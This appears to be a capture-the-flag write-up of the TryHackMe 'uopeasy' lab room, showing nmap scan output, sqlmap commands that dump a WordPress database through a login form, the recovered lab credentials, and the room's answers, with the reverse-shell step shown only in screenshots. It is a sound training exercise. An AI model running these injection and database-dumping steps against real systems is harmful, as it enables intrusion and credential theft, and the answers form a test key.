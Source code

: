 ```yaml
---
title: "uopeasy - TryHackMe"
category: "THM"
pubDate: 2020-07-18
description: "Writeup for the uopeasy university of Portsmouth's beginner room"
---
```

[TryHackMe | uopeasy](https://tryhackme.com/room/uopeasy)

University of Portsmouth's beginner room.

In this set of tasks you will learn the following:

- Basic SQL injection
- Use of reconnaissance tool
- nmap
- WordPress RCE and reverse shells
- Cracking the hash (John the ripper / hashcat)
- Possibly Nikto
- Burp Suite or dirbuster

The main goal here is to learn as much as possible. Make sure you are connected to our network using your [OpenVPN configuration file](https://tryhackme.com/access).

---

### Setup

```
➜  TryHackMe nmap -A -vv 10.10.180.236
```

```
80/tcp   open  http     syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).

443/tcp  open  ssl/http syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-02-17T03:30:05
| Not valid after:  2025-02-14T03:30:05
| MD5:   ebd4 a980 6e51 1b13 769e d4b1 28f9 71dd
| SHA-1: 6297 03e9 f83b 06e7 d50d 3f4b 5bae 38c9 7665 cc64
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQDg5heFLm8t8jANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwMjE3MDMzMDA1WhcNMjUwMjE0MDMzMDA1WjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANFjfgmsBCGKWfdqCYZnY2mKvtUnYFtenVjtqdReduE12yavSQZuWAi2
| jIpCUMwG7RG3QAwyzCoMWAzF/tZimI8uNL8G9m84l/wQAbTPMPJTgJXpwY0/9IRc
| hdqtpFoVS251qA9AvPeqMv/hV+rKVAkYcONB6Q8Or8S6ifkEBAZbAgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEAQ3Kt0nVDLMkAv9/k1bt6KaM06cvTtiekgu0ugxA0TNXC
| FNIBqu/Fasog43FRLuUtAtNCNMqI5QAAVPatQPk1QmVoE+IxbvxldrKykZk9oXkj
| 5rbE43BAkxyiMvuNsZh7W2Lzx14tlA84c8B4Y1S0CqoVLpaJaCQ5MtVMSya3wAM=
|_-----END CERTIFICATE-----

8080/tcp open  http     syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

![https://imgur.com/9SK08g2.png](https://imgur.com/9SK08g2.png)

![https://imgur.com/G7Wb80W.png](https://imgur.com/G7Wb80W.png)

### #1 Deploy the machine and connect to **our network.**

```
No awnser needed
```

### #2 Do some basic reconnaissance on the website. What pages can you view? What ports are open? What can you access?

```
No awnser needed
```

### #3 You should have found some additional pages on different ports. What service does the site most likely use for this page?

```
mysql
```

### #4 Using the fact that this site has this service running, how can you exploit it? Do not use SQLMap yet..

```
Since this is some php room let's say that is SQLi (SQL Injection)
```

```
SQLi
```

### #5 Try and return 1 on the page by entering certain characters into the form.

```
No awnser needed
```

### #6 Using SQL injection, can you extract the username and password for this form? You may need the help of Burp's intruder function OR SQLMap.

```
No awnser needed
```

### #7 What was the username?

Dump the database using sqlmap

```
➜  ~ sqlmap -u http://10.10.180.236/login.php --forms -dbs
```

![https://imgur.com/9yukJFN.png](https://imgur.com/9yukJFN.png)

![https://imgur.com/lu0ABlM.png](https://imgur.com/lu0ABlM.png)

Let's see the content of the wordpress8080 table

```
➜  ~ sqlmap -u http://10.10.180.236/login.php –forms –dbs –dump-all -D wordpress8080
```

![https://imgur.com/ucY2JNZ.png](https://imgur.com/ucY2JNZ.png)

Credentials retrieved

```
Username : admin
Password : SuperSecretPassword
```

### #8 What was the password?

```
SuperSecretPassword
```

### #9 Now you have these credentials, where else on the site can you go? Using the credentials you have and another part of the site, login and try to execute remote commands on the server.

```
No awnser needed
```

### #10 Can you get a reverse shell back to your local machine?

```
No awnser needed
```

### #11 Can you crack anyones password? Using the very popular rockyou.txt

```
No awnser needed
```

### #12 What is the final cracked hash password for the user "user"?

Let's upload the reverse shell on the wordpress blog

![https://imgur.com/z6QQkJF.png](https://imgur.com/z6QQkJF.png)

![https://imgur.com/AIcHLNM.png](https://imgur.com/AIcHLNM.png)

![https://imgur.com/9B1RXrg.png](https://imgur.com/9B1RXrg.png)

Nice we have the creds for the database let's try them 😇

![https://imgur.com/csDngND.png](https://imgur.com/csDngND.png)

![https://imgur.com/DElAc2V.png](https://imgur.com/DElAc2V.png)

```
SuperSecretPassword
```


